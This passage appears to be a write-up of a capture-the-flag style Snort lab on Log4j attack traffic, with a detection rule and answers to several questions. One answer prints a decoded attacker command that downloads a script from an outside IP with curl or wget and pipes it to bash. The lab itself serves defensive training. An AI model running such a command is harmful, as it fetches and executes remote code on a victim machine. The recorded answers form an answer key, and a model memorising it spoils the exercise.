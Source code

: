 ```alert tcp any any <> any 80 (msg: "HTTP traffic detected"; sid:1000001; rev:1;)```
#### Question
> Use **local-1.rules** empty file to write a new rule to detect packet payloads **between 770 and 855 bytes**.<br>
> What is the number of detected packets?

#### Approach

#### Answer
> 41
{.is-success}

---
<br>

#### Question
> Investigate the log/alarm files.<br>
> *What is the name of the used encoding algorithm?*

#### Approach

#### Answer
> Base64
{.is-success}

---
<br>

#### Question
> Investigate the log/alarm files.<br>
> *What is the IP ID of the corresponding packet?*

#### Approach

#### Answer
> 62808
{.is-success}

---
<br>

#### Question
> Investigate the log/alarm files.<br>
> Decode the encoded command.<br>
> *What is the attacker's command?*

#### Approach

#### Answer
> (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash
{.is-success}

---
<br>

#### Question
> *What is the CVSS v2 score of the Log4j vulnerability?*
#### Approach

#### Answer
> 9.3
{.is-success}

```